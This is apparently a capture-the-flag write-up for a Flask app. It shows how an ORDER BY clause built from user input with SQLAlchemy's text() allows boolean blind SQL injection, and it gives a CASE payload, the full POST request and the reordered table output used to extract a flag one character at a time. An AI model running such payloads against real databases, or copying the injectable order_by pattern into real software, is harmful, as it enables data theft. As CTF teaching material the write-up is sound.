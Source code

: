 ```python
        return render_template("home.html", metals=metals)
    else:
        metals = Metal.query.all()
        return render_template("home.html", metals=metals)


if __name__ == "__main__":
    seed_db()
    app.run(debug=True)
```

The part to focus on is the query that executes when sending your parameters in a `POST` operation:

```python
metals = Metal.query.filter(
    Metal.name.like("%{}%".format(search))
).order_by(text(order))
```

The `like` function is protected against injection, but the `order_by` is not. The query will expand to look like:

```sql
SELECT metals.atomic_number AS metals_atomic_number, metals.symbol AS metals_symbol, metals.name AS metals_name
FROM metals
WHERE metals.name LIKE ? ORDER BY <Injection Point>
```

We can perform a blind SQL injection by changing the sort order if a condition is met. Let's craft a SQL payload for the `ORDER BY` to test this with the first character of the flag. (We know the flag format is `flag{...}`, which means we can test with `f`.) If this works, we will be able to extract the entire flag one character at a time.

```sql
CASE
WHEN (SELECT SUBSTR(flag,1,1) FROM flag)='f'
  THEN atomic_number 
ELSE 
  symbol 
END
```

Sent as a `POST`:

```http
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 98

search=&order=CASE+WHEN+(SELECT+SUBSTR(flag,1,1)+FROM+flag)='f'+THEN+atomic_number+ELSE+symbol+END
```
```html
...
<tr>
    <td style="width:20%">3</td>
    <td style="width:10%">Li</td>
    <td>Lithium</td>
</tr>

<tr>
    <td style="width:20%">4</td>
    <td style="width:10%">Be</td>
    <td>Beryllium</td>
</tr>

<tr>
    <td style="width:20%">11</td>
```